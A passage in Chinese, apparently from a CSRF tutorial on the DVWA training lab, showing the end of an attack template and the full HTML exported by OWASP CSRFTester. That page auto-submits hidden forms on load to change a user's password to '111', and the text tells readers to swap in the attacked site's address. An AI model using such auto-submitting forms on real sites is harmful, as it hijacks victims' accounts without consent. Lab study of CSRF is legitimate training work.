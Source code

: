 ```
<input type="hidden" name="Change" value="Change" />
</form>
</body>
</html>
```

可以直接套用这个模板，但使用的时候记得把192.168.38.132换成被攻击网站的域名或IP

同时，通过CSRFTester导出的原始数据如下，可以对比一下：

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">

<html>
<head>
<title>OWASP CRSFTester Demonstration</title>
</head>

<body onload="javascript:fireForms()">
<script language="JavaScript">
var pauses = new Array( "17","23" );

function pausecomp(millis)
{
    var date = new Date();
    var curDate = null;

    do { curDate = new Date(); }
    while(curDate-date < millis);
}

function fireForms()
{
    var count = 2;
    var i=0;
    
    for(i=0; i<count; i++)
    {
        document.forms[i].submit();
        
        pausecomp(pauses[i]);
    }
}
    
</script>
<H2>OWASP CRSFTester Demonstration</H2>
<form method="GET" name="form0" action="http://www.test.com:80/DVWA/vulnerabilities/csrf/?password_current=111&password_new=111&password_conf=111&Change=Change&user_token=c2458bf983aa09631d2abcb07e0f9849">
<input type="hidden" name="name" value="value"/> 
</form>
</body>
</html>
```
